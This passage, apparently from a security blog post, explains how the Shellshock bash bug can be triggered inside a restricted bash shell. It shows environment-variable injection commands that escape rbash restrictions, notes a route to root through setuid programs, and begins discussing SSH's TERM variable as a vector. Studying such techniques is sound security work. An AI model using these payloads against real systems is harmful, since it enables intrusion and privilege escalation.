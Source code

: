 But the same man page gives us a way to escape: nothing prevent us to
trigger the vuln *within* the restricted shell:

> "When a command that is found to be a shell script is executed [...],
> rbash  turns  off  any restrictions in the shell spawned to execute
> the script."
>
> <footer><a href="https://linux.die.net/man/1/bash">bash(1)</a>, <em>Restricted shell</em></footer>

The only thing that we need is just an executable shell script in the ``PATH``
to target it:

```shell
$ cat /bin/egrep
#!/bin/sh
exec grep -E "$@"

$ X='() { :;}; /bin/echo vuln' bash -r -c 'egrep'
vuln
<...>

```

This may allow you to escape from the restricted shell or at least it will
allow you to perform some prohibited actions like ``cd`` or redirections:

```shell
$ X='() { :;}; cd /home ; echo "foo" > bar ' bash -r -c 'egrep'
<...>

$ cat /home/bar
foo

```



{% marginnote
'I am sure that there are other clever
and creative ways to *priv esc* using shellshock besides using a
``setuid`` program.' %}

If you think, this can be used for a privilege escalation:
running as a
normal user, if a ``setuid`` program spawn a shell you will get a path to root
pretty straightforward.

## SSH

SSH will send some environment variables by default, like ``TERM``
regardless of the configuration of the server or client as long as
we allocate a remote pseudo-terminal (``-t``)

    " [...] the TERM environment variable is always sent whenever
    a pseudo-terminal is requested as it is required by the protocol."
